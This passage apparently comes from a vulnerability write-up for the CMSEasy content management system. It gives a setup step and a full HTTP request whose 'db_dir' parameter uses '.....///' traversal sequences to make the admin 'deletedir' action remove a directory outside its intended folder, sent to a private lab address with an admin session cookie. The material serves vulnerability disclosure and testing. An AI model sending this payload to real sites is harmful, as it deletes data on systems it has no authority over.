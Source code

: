 To avoid errors and continue verification, create a directory `111` at the same level as `data` (i.e., a subdirectory directly under the website root) which may include substructures.

![image-20250129215414428](/assest/cmseasy/cmseasy-2.6.png)

**Constructing the Payload**

```http
GET /index.php?case=database&act=deletedir&admin_dir=admin&site=default&db_dir=databack_2025-01-27-17-17-YTRiYz_7779/.....///.....///.....///111 HTTP/1.1
Host: 192.168.5.6:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fd4dgj9s9ib24l6jil8uakhijd; login_username=admin; login_password=mvgoWX7V4jltNikmT1BjPZKXQx9tSvwsPkbh9wCe8iBaZ2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive


```
